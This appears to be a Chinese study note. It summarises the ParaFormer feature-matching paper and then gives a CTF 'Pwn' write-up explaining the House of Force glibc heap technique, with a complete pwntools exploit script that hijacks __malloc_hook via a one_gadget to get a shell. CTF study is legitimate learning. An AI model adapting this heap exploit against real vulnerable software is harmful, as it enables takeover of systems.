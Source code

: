 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images/三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为 $p^X \in R^{M\times3}$, $p^Y \in R^{N\times3}$ ,  设置描述符分别为 $d^X \in R^{M\times C}$ , $d^Y \in R^{N\times C}$ 。波形的生成公式如下

$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\quad= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$

在Wave-PE中将位置 $p$ 和描述符 $d$ 分别映射为为幅度 $A$ 和相位 $\theta$ 通过MLP将其转换为位置编码  $x,[.,.]$  表示链接。

$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$

接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为 $Q、K、V$ 。然后并行计算自注意力和交叉注意力，自注意力的输入是 $(Q_x,V_x, K_x)$ 和 $(Q_y,V_y, K_y)$ 对于自注意力来说采用标准的注意力公式。

$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$

对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用 $(Q_xK_y^T)^T$ 来代替

 $Q_yK_x^T$ ，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$ ，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images/U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images/自注意力.png)

假设l层中的特征为 $x^l ∈ R^{N×D}$ ，注意力权重为 $A^l ∈ R^{N×N}$ 。提出的注意力池化定义为：

$$
 s=sum(A,dim=1)
\\ idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\ g=sigmoid(s(idx))
\\ x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层 $l+1$ 的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分 $s∈R^N$ ,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$ 提取s中索引为 $idx$ 的值然后利用 $sigmoid$ 运算来生成gating信号， $\odot$ 表示逐元素矩阵乘法。

反池化上采样操作则为

$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$

 $x^l∈R^{k\times C^l}$ 是当前的特征矩阵， $0_{N \times C^{l+1}}$ 是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。 $idx ∈ R^k$ 是在对应池化层中选择的点的索引。然后根据 $idx$ 将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images/1.png)

初始界面有两种功能

![2](images/2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

